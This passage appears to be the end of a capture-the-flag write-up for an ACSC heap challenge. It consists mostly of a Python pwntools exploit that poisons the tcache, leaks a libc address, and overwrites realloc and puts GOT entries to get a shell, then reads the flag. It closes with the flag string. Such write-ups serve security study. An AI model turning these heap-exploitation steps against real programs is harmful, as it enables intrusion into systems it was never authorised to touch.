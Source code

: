 ```python 
Edit(4,0x68,p64(0)*6+p64(tcache_perthread_struct+0x160))
Edit(5,0x78,b"X")
Edit(6,0x58,b"Khongduocthicut")
List()
p.recvuntil(b"[5] ")
libc.address=int(p.recv(6)[::-1].hex(),16)-0x219ce0
puts_abs_got=libc.address+0x219098
realloc_abs_got=libc.address+0x219160
log.info(f"libc @ {hex(libc.address)}")
Edit(3,0x78,p16(0)*6+p16(7))
Edit(4,0x68,p64(0)*6+p64(realloc_abs_got))
Edit(7,0x78,p64(libc.address+0xebcf8))

Edit(4,0x68,p64(0)*6+p64(puts_abs_got-8))
Edit(8,0x78,p64(0)+p64(libc.sym.realloc+1153))

p.sendline(b"cat flag*")
p.interactive()
```

![](https://i.imgur.com/heE4Mex.png)
Flag : `ACSC{r34ll0c_15_n07_ju57_r34ll0c473}`
